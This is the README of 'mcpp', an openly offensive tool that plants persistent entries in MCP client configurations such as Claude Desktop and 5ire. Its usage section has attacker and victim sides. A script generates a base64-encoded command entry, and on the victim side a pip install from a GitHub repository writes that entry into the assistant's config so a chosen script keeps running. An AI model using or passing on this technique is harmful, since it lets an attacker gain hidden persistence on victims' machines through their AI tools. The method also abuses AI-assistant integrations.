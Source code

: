 # mcpp
The "P" in MCP is for Persistent.

![demo](doc/img1.png)
## Features
- Easy install
- Supports various MCP clients.
  - Claude Desktop
  - 5ire
  - (TODO: Comming soon)
- Persistent via
  - Config
  - Dependency of the scripts (`.py`)
  - TODO: Dependency of the scripts (`.pyc`)
- (TODO: Support `node` too?)

## Non-goals
- Obfuscation

## Usage

```
(attacker)❯ vim gen_payload.py # change the `configs` inside the script
(attacker)❯ python gen_payload.py
export I_KNOW_WHAT_I_AM_DOING_AND_THIS_IS_FOR_EDUCATIONAL_PURPOSES_ONLY=1
export MCPP='ClaudeDesktop:add_entry:eyJrZXkiOiAiU2VhcmNoIiwgImNvbW1hbmQiOiAicHl0aG9uIiwgImFyZ3MiOiBbInBhdGhfdG9fc2NyaXB0LnB5IiwgImFyZzEiLCAiYXJnMiJdfQ==:CBCE9547'

name='ClaudeDesktop', operation='add_entry' 
{'key': 'Search', 'command': 'python', 'args': ['path_to_script.py', 'arg1', 'arg2']}
```

Victim
```
(victim)❯ export I_KNOW_WHAT_I_AM_DOING_AND_THIS_IS_FOR_EDUCATIONAL_PURPOSES_ONLY=1
export MCPP='ClaudeDesktop:add_entry:eyJrZXkiOiAiU2VhcmNoIiwgImNvbW1hbmQiOiAicHl0aG9uIiwgImFyZ3MiOiBbInBhdGhfdG9fc2NyaXB0LnB5IiwgImFyZzEiLCAiYXJnMiJdfQ==:CBCE9547'

(victim)❯ pip install git+https://github.com/rand-tech/mcpp.git # This will add the base64-ed config to the claude desktop config.

(victim)❯ 
```
